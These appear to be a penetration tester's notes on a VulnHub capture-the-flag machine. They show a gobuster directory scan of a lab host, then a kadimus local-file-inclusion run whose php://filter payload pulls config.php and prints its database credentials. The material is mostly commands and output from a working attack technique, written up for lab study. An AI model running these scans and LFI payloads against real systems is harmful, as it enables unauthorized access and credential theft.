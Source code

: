 ###### gobuster

```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab# ~/go/bin/gobuster dir -u http://192.168.56.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,sql -t 40 -e -o scans/gobuster_dir_med-php-txt-html-sql.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.103/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,sql,php,txt
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/01/07 17:49:15 Starting gobuster
===============================================================
http://192.168.56.103/index.php (Status: 200)
http://192.168.56.103/images (Status: 301)
http://192.168.56.103/upload (Status: 301)
http://192.168.56.103/upload.php (Status: 200)
http://192.168.56.103/login.php (Status: 200)
http://192.168.56.103/config.php (Status: 200)
http://192.168.56.103/server-status (Status: 403)
===============================================================
2020/01/07 17:51:26 Finished
===============================================================
```

###### kadimus

```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "config" -O config.php --proxy http://127.0.0.1:8080

(GET /?page=php://filter/convert.base64-encode/resource=config HTTP/1.1)


 _  __         _ _
| |/ /__ _  __| (_)_ __ ___  _   _ ___
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[19:37:04] [INFO] trying get source code of file: config
[19:37:04] [INFO] valid base64 returned:
[19:37:04] [INFO] check the output file

<?php
$server      = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>



```